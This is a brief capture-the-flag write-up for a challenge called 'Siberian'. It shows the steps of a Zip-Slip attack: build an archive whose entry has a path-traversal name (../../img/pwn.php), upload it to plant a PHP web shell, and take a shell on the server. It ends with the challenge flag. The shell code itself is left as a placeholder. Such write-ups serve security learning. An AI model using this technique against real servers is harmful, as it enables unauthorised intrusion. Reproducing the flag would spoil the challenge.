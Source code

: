 # Siberian

Zip-Slip your way through

```
touch ../../img/pwn.php
<put php shell code there>
zip meh.zip ../../img/pwn.php
Upload!
Enjoy Shell
```

##### X-MAS{Z1pp3r_D0wn_S4nt4!_Y0ur_Secr3t5_4r3_n0w_0ur5}

